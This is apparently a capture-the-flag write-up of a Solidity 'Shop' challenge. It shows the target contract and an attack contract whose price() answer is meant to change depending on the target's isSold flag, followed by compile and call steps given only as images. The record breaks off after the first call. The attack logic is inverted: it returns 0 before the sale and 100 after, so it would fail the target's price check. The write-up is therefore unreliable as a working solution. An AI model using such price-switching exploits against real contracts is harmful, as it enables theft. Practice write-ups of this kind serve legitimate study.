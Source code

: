 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack {
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function price() external view returns(uint) {
        if (buyer.isSold()) {
            return 100;
        } else {
            return 0;
        }
    }

    function buy() external {
        buyer.buy();
    }
}
```
We can compile this using forge

![image](https://github.com/user-attachments/assets/2dbd4a6e-c18f-44e0-ac06-ec1d7d4931a0)

We've successfully compiled the attack contract and we got the contract address to be `0x5A6dD3c52df84Fea9c50f0c6ad9d56656EaA7abf`

Lets start out by calling the `price()` function in the attack contrat

![image](https://github.com/user-attachments/assets/6b43c76e-91b9-4fb7-ae0a-e90af0b43c3c)


























